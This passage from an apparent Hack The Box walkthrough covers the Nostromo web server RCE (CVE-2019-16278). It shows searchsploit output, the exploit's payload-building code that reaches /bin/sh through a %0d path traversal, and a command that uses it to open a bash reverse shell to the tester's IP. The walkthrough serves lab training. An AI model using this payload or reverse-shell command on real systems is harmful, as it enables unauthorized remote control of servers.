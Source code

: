 ```bash
┌─[rin@parrot]─[~/boxes/Traverexec]
└──╼ $searchsploit nostromo
Exploit Title Path
Nostromo - Directory Traversal Remote Command Execution 
    (Metasploit) | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution | multiple/remote/
    47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote 
    Command Execution | linux/remote/35466.sh
```

The vulnerability is CVE-2019-16278 and is an unauthenticated remote code execution exploit due to the website allowing path traversal. If we look at the Python code by making a local copy of the file:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Traverexec]
└──╼ $searchsploit -m multiple/remote/47837.py
Exploit: nostromo 1.9.6 - Remote Code Execution
URL: 
https://www.exploit-db.com/exploits/47837

Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
File Type: Python script, ASCII text executable, 
    with CRLF line terminators
Copied to: /home/oztechmuse/boxes/Traverexec/47837.py
```

The key part of the code that runs the exploit is the method cve:

```python
def cve(target, port, cmd):
  soc = socket.socket()
  soc.connect((target, int(port)))
  payload = 'POST /.%0d./.%0d./.%0d./.%0d./'
  payload += 'bin/sh HTTP/1.0\r\nContent-Length: '
  payload += '1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
  soc.send(payload)
  receive = connect(soc)
  print(receive)
```

In this method, the script is doing an HTTP POST to a path that is "/.%0d./.%0d./.%0d./.%0d./bin/sh". The Nostromo code checks for paths in the URL but because of the addition of the carriage return character %0d, it does not think that this is a path. The %0d is removed by a later function making the path "/../../../../bin/sh" and this is then executed with the body of the POST as the argument.

We can use this script to run the same bash reverse shell we ran in Traceback after setting up a netcat listener \(note that you may have to change the code slightly to get it to run with Python 3, encoding the payload: soc.send\(payload.encode\(\)\):

```bash
python3 47837.py 10.129.1.193 80 \
"bash -c 'bash -i >& /dev/tcp/10.10.14.117/6001 0>&1'"
```
